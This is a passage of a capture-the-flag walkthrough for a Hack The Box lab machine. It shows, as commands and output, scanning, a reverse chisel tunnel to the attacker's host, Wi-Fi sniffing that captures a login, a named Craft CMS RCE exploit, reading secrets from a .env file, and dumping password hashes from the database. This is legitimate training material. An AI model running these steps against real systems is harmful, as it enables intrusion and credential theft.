Reconnaissance
Nmap's first pass found exactly two ports and made the box look polite:
marauder@forttablazed:~$ nmap -p 1-10000 10.129.59.235
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-10-22 19:10 WIB
Nmap scan report for 10.129.59.235
Host is up (0.031s latency).
Not shown: 9998 closed tcp ports (conn-refused)
PORT STATE SERVICE
22/tcp open ssh
3389/tcp open ms-wbt-server
Nmap done: 1 IP address (1 host up) scanned in 59.98 seconds
marauder@forttablazed:~$ nmap -p 22,3389 -sCV 10.129.59.235
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-10-22 19:12 WIB
Nmap scan report for 10.129.59.235
Host is up (0.048s latency).
PORT STATE SERVICE VERSION
22/tcp filtered ssh
3389/tcp filtered ms-wbt-server
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.74 seconds
Then I ran version detection on those same two ports and suddenly both were
filtered. Same box, same minute, completely different story. Welcome to
Layover, I guess.
Getting In as Contractor
SSH Access
SSH was not interested. Three password attempts, three rejections:
marauder@forttablazed:~$ ssh contractor@10.129.59.235
The authenticity of host '10.129.59.235 (10.129.59.235)' can't be established.
ED25519 key fingerprint is SHA256:OZNUeTZ9jastNKKQ1tFXatbeOZzSFg5Dt7nhwhjorR0.
This host key is known by the following other names/addresses:
~/.ssh/known_hosts:12: [hashed name]
~/.ssh/known_hosts:13: [hashed name]
~/.ssh/known_hosts:15: [hashed name]
~/.ssh/known_hosts:18: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.59.235' (ED25519) to the list of known hosts.
contractor@10.129.59.235's password:
Permission denied, please try again.
contractor@10.129.59.235's password:
Permission denied, please try again.
contractor@10.129.59.235's password:
contractor@10.129.59.235: Permission denied (publickey,password).RDP Access
RDP, though? RDP on a Linux box let me straight in as contractor. I'm still a little surprised — Linux + RDP is a combo you don't see every day.

Shell as www-data
Initial Enumeration
Discovering the Internal Network
The little WiFi icon in the corner was blank, which felt like the box winking at me.
Plugged it into HTB International Wifi and it handed out an IP:

Right after connecting, a browser pops up out of nowhere on
http://wifi.international.htb/:

Hit agree, and it drops you at
http://portal.international.htb/:

That domain resolves to 10.13.37.10 — and yes, it actually pings:
contractor@airside-ws01:~$ ping -c 3 portal.international.htb
PING portal.international.htb (10.13.37.10) 56(84) bytes of data.
64 bytes from portal.international.htb (10.13.37.10): icmp_seq=1 ttl=64 time=0.064 ms
64 bytes from portal.international.htb (10.13.37.10): icmp_seq=2 ttl=64 time=0.196 ms
64 bytes from portal.international.htb (10.13.37.10): icmp_seq=3 ttl=64 time=0.164 ms
--- portal.international.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 0.064/0.141/0.196/0.056 msContractor Has Root Access
Tiny detail I almost missed: contractor can just sudo su. No exploit, no
cleverness, just vibes:
contractor@airside-ws01:~$ sudo su
[sudo] password for contractor:
root@airside-ws01:/home/contractor# whoami
root
root@airside-ws01:/home/contractor#Enumeration with Chisel
Time to tunnel, because I want to actually see inside international.htb.
Chisel server goes up on my attacker box:
marauder@forttablazed:/home/fortta/Documents/tools$ ./chisel server --reverse -v -p 12345 --socks5
2026/10/22 19:26:25 server: Reverse tunnelling enabled
2026/10/22 19:26:25 server: Fingerprint MIInFIYyZbKI7cil7egMCnH7K1h1iaara2Sbz5UfBvs=
2026/10/22 19:26:25 server: Listening on http://0.0.0.0:12345
2026/10/22 19:30:36 server: session#1: Handshaking with 10.129.59.235:56308...
2026/10/22 19:30:37 server: session#1: Verifying configuration
2026/10/22 19:30:37 server: session#1: Open (user=- addr=10.129.59.235:56308 remotes=R:127.0.0.1:1080:socks)
2026/10/22 19:30:37 server: session#1: tun: Created (SOCKS enabled)
2026/10/22 19:30:37 server: session#1: tun: SSH connected
2026/10/22 19:30:37 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
2026/10/22 19:30:37 server: tun: Bound proxiesAnd the client runs on the victim:
contractor@airside-ws01:~$ ./chisel client 10.10.15.62:12345 R:socks
2026/10/22 12:29:23 client: Connecting to ws://10.10.15.62:12345
2026/10/22 12:29:25 client: Connected (Latency 55.337606ms)Port Scanning via Proxychains
I scanned 1–10000 in three chunks (1–1000, 1001–5000,
5001–10000) because proxychains makes every packet feel like it's being
delivered by hand. Time was tight, so I split the work. End result: exactly two ports on
international.htb.
Nmap scan report for portal.international.htb (10.13.37.10)
Host is up (1.3s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 177.73 secondsWeb Enumeration
Firefox + SOCKS proxy = comfy browsing:

The portal has a login page, so I tried contractor. The dashboard had absolutely nothing useful — checked the source code too, still nothing:

Dirsearch turned up a Craft CMS admin login, but no version anywhere and contractor's creds didn't work there either:

Traffic Sniffing
Capturing Jenny's Credentials
The box makes you connect to WiFi manually at the start, which is a pretty loud hint that the traffic itself matters. First, let's see what interfaces we're working with:
contractor@airside-ws01:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.159.143.45 netmask 255.255.255.0 broadcast 10.159.143.255
inet6 fd42:3ff5:6554:20e5:216:3eff:fe83:ea41 prefixlen 64 scopeid 0x0<global>
inet6 fe80::216:3eff:fe83:ea41 prefixlen 64 scopeid 0x20<link>
ether 00:16:3e:83:ea:41 txqueuelen 1000 (Ethernet)
RX packets 9037 bytes 12241355 (12.2 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 7097 bytes 566721 (566.7 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 511790 bytes 512443544 (512.4 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 511790 bytes 512443544 (512.4 MB)
TX errors 0 dropped 0 overruns 0 frame 0
collisions 0
wlan2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.13.37.182 netmask 255.255.255.0 broadcast 10.13.37.255
inet6 fe80::94fc:97d0:9dad:e50b prefixlen 64 scopeid 0x20<link>
ether 02:00:00:00:02:00 txqueuelen 1000 (Ethernet)
RX packets 2225 bytes 535163 (535.1 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 5710 bytes 674470 (674.4 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
wlan3: flags=4099<UP,BROADCAST,MULTICAST> mtu 1500
ether 02:00:00:00:03:00 txqueuelen 1000 (Ethernet)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 frame 0
collisions 0
wlan3 is just sitting there with no IP at all — an obvious candidate for a
sniffing interface. And this is where I could've been normal about it.
🔴 But nah, where's the fun in just grabbing the empty interface and calling it a day? I'm going to pretendwlan3doesn't exist and clonewlan2into a brand-new monitor interface calledmon2. Why? Because I can, and because "just use the interface that was conveniently handed to you" is boring. Name itmon11,wlqo1,totallyNotSpyware— doesn't matter, it's just a name.
sudo iw dev wlan2 interface add mon2 type monitorBring it up, then check it's actually alive (spoiler: it is):
contractor@airside-ws01:~$ sudo ip link set mon2 up
contractor@airside-ws01:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.159.143.45 netmask 255.255.255.0 broadcast 10.159.143.255
inet6 fd42:3ff5:6554:20e5:216:3eff:fe83:ea41 prefixlen 64 scopeid 0x0<global>
inet6 fe80::216:3eff:fe83:ea41 prefixlen 64 scopeid 0x20<link>
ether 00:16:3e:83:ea:41 txqueuelen 1000 (Ethernet)
RX packets 9107 bytes 12248650 (12.2 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 7237 bytes 581588 (581.5 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 552229 bytes 553563985 (553.5 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 552229 bytes 553563985 (553.5 MB)
TX errors 0 dropped 0 overruns 0 frame 0
collisions 0
mon2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
unspec 02-00-00-00-02-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 1000 (UNSPEC)
RX packets 29 bytes 3712 (3.7 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
wlan2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.13.37.182 netmask 255.255.255.0 broadcast 10.13.37.255
inet6 fe80::94fc:97d0:9dad:e50b prefixlen 64 scopeid 0x20<link>
ether 02:00:00:00:02:00 txqueuelen 1000 (Ethernet)
RX packets 2359 bytes 567656 (567.6 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 6077 bytes 716943 (716.9 KB)
TX errors 0 dropped 0 overruns 0 frame 0
collisions 0
wlan3: flags=4099<UP,BROADCAST,MULTICAST> mtu 1500
ether 02:00:00:00:03:00 txqueuelen 1000 (Ethernet)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 frame 0
collisions 0
Now point Wireshark at mon2, wait a couple of minutes, and the box hands over
the goods: username=jenny&password=Fl1ghtDeck2026!

Craft CMS 5.9.8 RCE
Jenny's creds get you into Craft CMS, and now the version is right there in your face: Craft CMS 5.9.8.

That version is vulnerable — pick your CVE. The one I used is CVE-2026-31857: Remote Code Execution via Relational Conditionals:
Unsanitized user input reaches the unsandboxed renderObjectTemplate()
function, triggering template injection and code execution via element listing endpoints.
It's basically SSTI with extra steps. And while hunting for a PoC, I found TRX-0/CVE-2026-31857-craftcms-ssti — which I'm 90% sure belongs to the author of this box. Small world. Thanks for the exploit, TRX.
🔴 Fun fact: my very first RCE shell landed on… my own attacker machine. The victim couldn't reach my IP, so I helpfully reverse-shelled myself. Not my proudest moment, but hey — it worked, just on the wrong machine.
After that little detour, we did get a real shell:

Shell as aporter
Finding the .env File
First order of business: find .env. It's always .env.
www-data@portal:~/portal/web$ find / -name .env 2>/dev/null
/var/www/portal/.env
www-data@portal:~/portal/web$ cat /var/www/portal/.env
# Read about configuration, here:
# https://craftcms.com/docs/5.x/configure.html
# The application ID used to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--41606de1-cf7a-4fc5-8b1e-6f746d801adf
# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production
# General settings
CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr
CRAFT_DEV_MODE=false
CRAFT_ALLOW_ADMIN_CHANGES=false
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craft
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftDB_pw_2026
CRAFT_DB_TABLE_PREFIX=
PRIMARY_SITE_URL=http://portal.international.htb/
CRAFT_ENABLE_TWIG_SANDBOX=trueDB password acquired. Of course it was in there. It always is.
Local User Enumeration
Before dumping anything, let's check who actually lives on this box.
www-data@portal:~/portal/web$ ls /home -al
total 12
drwxr-xr-x 3 root root 4096 Sep 23 13:14 .
drwxr-xr-x 21 197108 197121 4096 Sep 23 13:14 ..
drwxr-x--- 3 aporter aporter 4096 Sep 23 13:14 aporter
www-data@portal:~/portal/web$ ls -al /home/aporter
ls: cannot open directory '/home/aporter': Permission deniedOne user: aporter. And of course their home is locked down. Rude.
Credential Dumping
The objective is clearly aporter's password, so into the database we go.
www-data@portal:~/portal/web$ mysql -u craftuser -p craft
Enter password: CraftDB_pw_2026
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MariaDB connection id is 79
Server version: 10.11.14-MariaDB-0ubuntu0.24.04.1 Ubuntu 24.04
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
MariaDB [craft]> show databases;
+--------------------+
| Database |
+--------------------+
| craft |
| information_schema |
+--------------------+
MariaDB [craft]> use craft;
Database changed
MariaDB [craft]> show tables;
+----------------------------+
| Tables_in_craft |
+----------------------------+
| ... |
| htbairways_settings |
| ... |
| users |
+----------------------------+
MariaDB [craft]> select username, password from users;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| admin | $2y$13$ZdTZwteklJx2.z6sEY35pehuiOsB28y3sGJTNozu.xTpYRe4MCGg2 |
| jenny | $2y$13$abHJk/QQLb8BE4L2pkBblebjEeWCMyFAdwguN2d7rDHZnnHJWvG7q |
+----------+--------------------------------------------------------------+
No aporter in the users table — just admin and jenny. Interesting. So the move
is: dump everything and grep like a caveman.
www-data@portal:~$ cd /tmp
www-data@portal:/tmp$ mysqldump -u craftuser -p craft > craft.sql
Enter password: CraftDB_pw_2026
www-data@portal:/tmp$ grep -in -B 5 -A 5 aporter craft.sql
1094-/*!40000 ALTER TABLE `htbairways_settings` DISABLE KEYS */;
1095-INSERT INTO `htbairways_settings` VALUES
1096-(1,'mailRelayPassword','u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w=','2026-07-16 03:19:52','2026-07-16 03:19:52'),
1097-(2,'mailRelayHost','mail.htbairways.htb','2026-08-11 13:31:23','2026-08-11 13:31:23'),
1098-(3,'mailRelayPort','587','2026-08-11 13:31:23','2026-08-11 13:31:23'),
1099-(4,'mailRelayUser','aporter','2026-08-11 13:31:23','2026-08-11 13:31:23');
1100-/*!40000 ALTER TABLE `htbairways_settings` ENABLE KEYS */;
There's the encrypted mailRelayPassword, sitting right next to the username.
Subtle.
Decrypting mailRelayPassword
Next question: how do you decrypt this thing? I asked the AI overlords, and they pointed me
at Craft's own yii\base\Security class plus the
CRAFT_SECURITY_KEY from .env:
